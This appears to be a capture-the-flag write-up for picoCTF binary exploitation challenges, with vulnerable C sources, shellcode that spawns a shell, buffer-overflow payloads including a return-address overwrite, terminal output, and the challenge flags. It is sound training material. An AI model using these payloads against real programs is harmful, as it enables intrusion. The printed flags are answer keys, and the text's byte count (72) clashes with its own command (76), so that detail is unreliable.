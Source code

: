 # Binary Exploit

### handy-shellcode (50 points)

This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in `/problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5` on the shell server.

FLAG: `picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
```

Find a shellcode to execute `/bin/bash` online:

```
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80
```

Use python2 to print it and pipe it to the vulnerable program. python3 has a different version of print statement, which removes some "unprintable" characters from the output. That would ruin the shellcode.

**Note:** We can use `cat` to keep the input stream open!

```bash
$ (python -c "print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80')" ; cat) | ./vuln
```

We get the following result:

```bash
$ /problems/handy-shellcode_1_ebc60746fee43ae25c405fc75a234ef5$ (python -c "print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80')" ; cat) | ./vuln
Enter your shellcode:
j
 X�Rfh-p��Rjhh/bash/bin��RQS��̀
Thanks! Executing now...
id
uid=29614(sophiasp1r0) gid=8870(handy-shellcode_1) groups=8870(handy-shellcode_1),1002(competitors),29615(sophiasp1r0)
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_2cb0ff39}exit

```

Same effect can be achieve using the following command:

```bash
$ (echo -n -e '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80' ; cat) | ./vuln
```

or use `pwn.asm(pwn.shellcraft.linux.sh())` (See [this link](https://www.youtube.com/watch?v=Nn0fUJuQEsk&t=174s))

### practice-run-1 (50 points)

You're going to need to know how to run programs if you're going to get out of here. Navigate to `/problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e` on the shell server and run this program to receive a flag.

FLAG: `picoCTF{g3t_r3adY_2_r3v3r53}`

```bash
$ /problems/practice-run-1_0_62b61488e896645ebff9b6c97d0e775e/run_this
# => picoCTF{g3t_r3adY_2_r3v3r53}
```

### Overflow 0 (100 points)

This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in `/problems/overflow-0_5_db665826dabb99c44758c97abfd8c4c6` on the shell server.

FLAG: `picoCTF{3asY_P3a5y4a888b8e}`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}

```

Overflow the buffer to trigger segmentation fault, and the program will print out the flag.

```bash
$ python -c "print('A' * 140)" | xargs ./vuln
# => picoCTF{3asY_P3a5y4a888b8e}
```

### Overflow 1 (150 points)

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in `/problems/overflow-1_1_e792baa0d29d24699530e6a26071a260` on the shell server.

FLAG: `picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

Using gdb we can figure out that the buffer starts at `0xffffd6c0` and ends at `0xffffd700`. However, `ebp` for `vuln` is `0xffffd708`. That means, there are 8 bytes between the end of the buffer and the start of the saved frame pointer. The return address should be at `0xffffd70c`.

That means, we need to pass in a string of 72 bytes to overwrite the return address and make `vuln` return to `flag`. The address of `flag` is `0x080485e6`.

Therefore, we can use the following command:

```bash
$ ruby -e 'print("A" * 76 + "\xe6\x85\x04\x08");' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a1b468a7}Segmentation fault (core dumped)
```
